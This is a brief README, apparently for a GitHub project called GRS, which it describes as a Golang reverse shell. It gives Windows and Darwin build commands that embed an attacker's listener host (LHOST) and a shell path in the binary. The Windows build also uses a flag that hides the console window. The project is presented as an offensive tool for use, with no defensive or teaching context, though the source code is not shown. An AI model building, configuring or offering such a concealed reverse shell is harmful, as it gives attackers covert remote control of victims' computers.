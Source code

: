 # GRS
### A Golang reverse shell


#### To build:
    Windows:
        `$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"`
    
    Darwin:
        `$ go build -ldflags "-X 'main.host=LHOST' -X 'main.shellPath=shell path'" "darwin/GRS.go"`
